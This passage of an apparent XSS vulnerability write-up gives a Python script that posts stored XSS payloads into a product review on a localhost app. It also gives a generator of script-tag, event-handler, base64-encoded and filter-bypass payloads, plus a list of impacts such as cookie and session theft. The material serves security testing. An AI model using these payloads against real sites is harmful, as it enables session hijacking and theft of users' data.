 ```python
session.post('http://localhost:8000/login/', data={
    'username': 'testuser',
    'password': 'testpass123'
})

# Submit malicious review
review_data = {
    'title': 'Great Product <script>alert("Title XSS")</script>',
    'content': '<img src=x onerror="alert(\'Stored XSS\')">',
    'rating': 5
}

response = session.post('http://localhost:8000/product/1/review/', data=review_data)
print(f"Review submitted: {response.status_code}")
```

### XSS Payload Generator
```python
def generate_xss_payloads():
    """Generate various XSS payloads for testing"""
    
    payloads = []
    
    # Basic scripts
    payloads.append("<script>alert('XSS')</script>")
    payloads.append("<script>alert(String.fromCharCode(88,83,83))</script>")
    
    # Event handlers
    events = ['onerror', 'onload', 'onclick', 'onmouseover']
    for event in events:
        payloads.append(f'<img src=x {event}=alert("XSS")>')
        payloads.append(f'<svg {event}=alert("XSS")>')
    
    # Encoded payloads
    payloads.append("<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>")
    
    # Filter bypass attempts
    payloads.append("<scr<script>ipt>alert('XSS')</scr</script>ipt>")
    payloads.append("<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>")
    
    return payloads
```

## Impact Analysis

### Confidentiality Impact
- Session token theft
- Cookie stealing
- Keylogging capabilities
- Personal data extraction
